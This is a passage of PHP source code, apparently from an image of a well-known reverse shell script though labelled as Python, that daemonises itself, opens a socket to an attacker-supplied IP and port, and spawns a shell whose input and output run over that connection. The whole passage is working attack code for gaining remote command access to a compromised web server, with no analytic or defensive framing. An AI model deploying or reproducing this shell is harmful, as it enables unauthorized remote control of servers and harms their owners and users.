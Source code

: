 ```python
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

```